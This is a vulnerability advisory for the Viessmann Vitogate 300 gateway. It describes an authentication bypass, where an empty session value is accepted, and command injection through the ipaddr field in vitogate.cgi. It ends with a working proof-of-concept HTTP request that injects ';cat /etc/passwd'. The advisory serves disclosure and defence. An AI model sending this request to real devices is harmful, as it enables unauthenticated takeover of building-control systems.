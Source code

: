 # Information

**Affected product:** Vitogate 300

**Vendor of the product:** Viessmann

**Product page:** https://connectivity.viessmann.com/gb/mp-fp/vitogate/vitogate-300-bn-mb.html

**Affected system version:** 2.1.3.0 and lower

**Firmware download address:** https://connectivity.viessmann.com/gb/mp-fp/vitogate/vitogate-300-bn-mb/release-historie.html

**Reported by:**  WentaoYang (pushe4x@gmail.com)



# Description

Vitogate 300 is a gateway for connecting the Viessmann LON to the BACnet or Modbus. An issue in the component /cgi-bin/vitogate.cgi allows unauthenticated attacker to bypass authentication and execute arbitrary commands via a crafted request.



# Vulnerability details

The vulnerability was detected in the `/ugw/httpd/html/cgi-bin/vitogate.cgi` binary.

## Authentication bypass vulnerability

Analyzing the `/ugw/httpd/html/cgi-bin/vitogate.cgi` , It accepts a data in JSON format through HTTP POST. Then use `isValidSession` function to check the `session` item to determine whether the client has logged in.

![image-20230820044139157](https://raw.githubusercontent.com/Push3AX/vul/main/pic/image-20230820044139157.png)

However, the `isValidSession` function only checks whether the `session` item exists, but not whether the value is valid。

![image-20230820044200248](https://raw.githubusercontent.com/Push3AX/vul/main/pic/image-20230820044200248.png)

Therefore, attacker can set an empty `session` item to bypass the authentication.

## Command injection vulnerability

When the `form` field in JSON data is ` form-4-7` or  ` form-4-8`, the corresponding  function with the same name will be called.

In this two functions, the contents of the `ipaddr` will be concatenated into the command string without any filtering. Then, the `popen` will be called with the command string executed as an argument.

![image-20230820041501154](https://raw.githubusercontent.com/Push3AX/vul/main/pic/image-20230820041501154.png)

To sum up, an unauthenticated attacker can set an empty `session` field to bypass the authentication, gain administrator privileges, and then inject arbitrary malicious commands using `ipaddr` field, thus gaining control of the remote systems.



# POC:

Send the following request to the vulnerable server:

```
POST /cgi-bin/vitogate.cgi HTTP/1.1
Host: VULNERABLE_SERVER_IP
Content-Length: 76
Content-Type: application/json

{"method":"put","form":"form-4-8","session":"","params":{"ipaddr":"1;cat /etc/passwd"}}
```

After the attack, the output of the commands will show in the HTTP response:

![image-20230820051743463](https://raw.githubusercontent.com/Push3AX/vul/main/pic/image-20230820051743463.png)
